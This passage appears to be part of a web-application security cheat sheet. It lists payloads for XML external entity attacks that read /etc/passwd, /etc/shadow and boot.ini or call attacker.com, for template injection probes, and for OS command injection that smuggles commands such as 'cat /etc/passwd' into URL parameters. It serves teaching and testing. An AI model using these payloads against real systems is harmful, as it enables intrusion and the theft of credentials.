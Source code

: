 ```
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```

#### Template Injection

Template injection allows an attacker to include template code into an existant (or not) template.

[Portswigger - Server Side Template Injecton](http://blog.portswigger.net/2015/08/server-side-template-injection.html)

**Examples**
{% raw %}
```
<%= 7 * 7 %>
{{ 7 * 7 }}
```
{% endraw %}

#### OS Command Injection

OS Command Injection is a technique where a user injects OS commands into web application interface with the intention of those commands executing on the web server.

[OWASP - Testing for Command Injection](https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013))

**Examples**
```
http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|
http://sensitive/something.php?dir=%3Bcat%20/etc/passwd

Doc=Doc1.pdf+|+Dir c:\
```

#### Open Redirection

Open redirection is an input validation flaw that exists when an application accepts an user controlled input which specifies a link that leads to an external URL that could be malicious.
